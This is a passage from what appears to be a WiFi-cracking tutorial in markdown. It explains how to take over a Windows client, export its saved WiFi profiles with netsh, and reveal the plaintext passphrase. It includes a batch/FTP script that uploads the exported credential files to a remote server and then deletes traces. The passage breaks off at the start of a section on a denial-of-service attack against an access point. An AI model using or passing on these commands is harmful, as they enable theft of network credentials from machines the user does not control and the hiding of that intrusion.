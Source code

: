 ## Using Windows (Simple but Difficult)

{{< figure src="/images/tutorials/wifi/wifi-crack/wifi-crack1.png" alt="crack-wifi" >}} 

In case WiFi is secured properly, your best bet might be to attack directly a client (e.g. Windows which is the perfect operating system to find the passphrases in). 

But you will need to firstly get a control (physical or remote) onto the targeted client in order to successfully extract and exfiltrate the WiFi passphrase :
### Copy the passphrase

```cmd
mkdir c:\temp
netsh wlan export profile folder=c:\temp
#netsh wlan add profile filename="theXMLexport.xml"
```

*Note: events on Windows are logged by eventmanager !*

This is a snippet for connecting to ftp : 

```cmd
::just to copy the file to a remote machine
@ftp -i -s:"%~f0"&GOTO:EOF
open server.net
my_username
my_password
!:---FTP commands following here---
cd location/for/storage
put c:\Temp\*.xml
disconnect
quit
::now delete traces
```
### show plaintext passphase on a Windows

```cmd
netsh
$ add profile filename="theXMLexport.xml" user=all
$ wlan show profiles
```

Then open network settings for WiFi
There you can show the key

## DOS AP (Difficult)
---
{{< figure src="/images/tutorials/wifi/wifi-crack/wifi-crack2.jpeg" alt="crack-wifi" >}} 
### List networks again

Copy the MAC address
### Find clients connected
